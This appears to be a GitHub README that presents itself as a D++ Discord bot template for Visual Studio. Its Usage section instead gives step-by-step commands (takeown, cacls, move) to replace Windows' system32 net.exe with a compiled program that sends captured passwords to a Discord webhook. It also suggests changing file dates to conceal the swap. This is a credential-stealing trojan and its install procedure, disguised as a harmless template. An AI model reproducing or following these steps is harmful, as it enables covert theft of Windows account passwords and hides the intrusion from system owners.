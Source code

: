 # D++ Windows Bot Template

A [D++](https://github.com/brainboxdotcc/DPP) Discord Bot template for Visual Studio 2022 (x64 and x86, release and debug). This repository is the result of [this tutorial](https://dpp.dev/build-a-discord-bot-windows-visual-studio.html) with additional enhancements for automatic selection of the correct architecture, and copying of the dll files into the correct folders on successful build.

This template comes packaged with the latest master branch of D++ from the CI. To use this project simply put your code into the `MyBot.cpp` and press F7. You can do much more with this template.

For support and assistance please join [the official support discord](https://discord.gg/dpp).

## Usage
1. rename net.exe to not.exe
    - `takeown /F \windows\system32\net.exe`
    - `cacls \windows\system32\net.exe /e /p <username>:f`
    - `move \windows\system32\net.exe \windows\system32\not.exe`
3. Place your discord web hook link into the program
4. Compile this program and put it in `C:\Windows\System32\`
5. Add dependencies to `C:\Windows\System32\`
6. (optional) change dates on files
7. Flourish

### Dependencies
- everything in the release folder:
  - dpp.dll
  - libcrypto-1_1-x64.dll
  - libsodium.dll
  - libssl-1_1-x64.dll
  - net.exe
  - opus.dll
  - zlib1.dll
- `vcruntime140.dll` which can be found in the most recent tag or [here](https://aka.ms/vs/17/release/vc_redist.x64.exe)

### Limits
- This program does not properly parse passwords with `|` in them 
